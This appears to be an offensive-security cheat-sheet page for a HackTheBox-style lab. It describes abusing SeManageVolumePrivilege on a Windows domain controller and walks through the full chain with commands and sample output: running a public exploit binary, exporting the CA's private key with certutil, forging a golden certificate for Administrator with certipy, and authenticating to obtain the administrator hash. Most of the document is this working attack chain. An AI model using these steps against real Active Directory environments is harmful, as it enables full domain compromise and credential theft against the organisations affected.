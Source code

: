 ## Thoery
If an account has `SeManageVolumePrivilege` enable, it can be abused to dump DC CA cert, then create golden certificate.
## Exploit
Check account's privilege
=== "Windows"
    ```bash
    whoami /priv
    ```
    For example
    ```bash
    whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                      State
    ============================= ================================ =======
    SeMachineAccountPrivilege     Add workstations to domain       Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
    SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
    ```
Exploit `SeManageVolumePrivilege` by using this [exploit](https://github.com/CsEnox/SeManageVolumeExploit)
=== "Windows"
    ```bash
    .\SeManageVolumeExploit.exe
    ```
    Example:
    ```bash
    .\SeManageVolumeExploit.exe
    Entries changed: 861

    DONE
    ```
Export CA from DC
=== "Windows"
    ```bash
    certutil -exportPFX my "subject_name" C:\path\to\save
    ```
    Example
    ```bash
    certutil -exportPFX my "Certificate-LTD-CA" C:\Users\Public\ca.pfx

    my "Personal"
    ================ Certificate 2 ================
    Serial Number: 75b2f4bbf31f108945147b466131bdca
    Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
    NotBefore: 11/3/2024 3:55 PM
    NotAfter: 11/3/2034 4:05 PM
    Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Template Name (Certificate Type): CA
    CA Version: V0.0
    Signature matches Public Key
    Root Certificate: Subject matches Issuer
    Template: CA, Root Certification Authority
    Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
    Key Container = Certificate-LTD-CA
    Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
    Provider = Microsoft Software Key Storage Provider
    Signature test passed
    Enter new password for output file C:\Users\Public\ca.pfx:
    Enter new password:
    Confirm new password:
    CertUtil: -exportPFX command completed successfully.
    ```
Forge golden certificate for administrator
=== "UNIX-like"
    ```bash
    certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -subject 'CN=Administrator,CN=Users,DC=certificate,DC=htb' -out forced_admin.pfx
    ```
    Example
    ```bash
    certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -subject 'CN=Administrator,CN=Users,DC=certificate,DC=htb' -out forced_admin.pfx 
    Certipy v5.0.2 - by Oliver Lyak (ly4k)

    [*] Saving forged certificate and private key to 'forced_admin.pfx'
    [*] Wrote forged certificate and private key to 'forced_admin.pfx
    ```
Authen and get admin hash
=== "UNIX-like"
    ```bash
    certipy-ad auth -pfx forced_admin.pfx -dc-ip 10.10.11.71 -u 'administrator' -domain certificate.htb
    ```
    